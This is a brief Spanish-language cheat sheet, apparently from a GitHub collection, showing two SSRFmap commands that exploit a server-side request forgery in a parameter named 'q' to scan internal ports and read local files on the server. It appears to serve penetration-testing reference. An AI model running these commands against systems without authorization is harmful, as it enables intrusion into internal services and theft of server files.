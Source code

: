 # SSRFmap Cheat Sheet

#### Escaneo de la vulnerabilidad SSRF a un requeset con parametro llamado 'q' y revisar que puertos tiene abiertos localmente:
```
ssrfmap -r <REQUEST> -p q -m portscan
```

#### Escaneo de la vulnerabilidad SSRF a un requeset con parametro llamado 'q' y leer archivos localmente:
```
ssrfmap -r <REQUEST> -p q -m readfiles
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)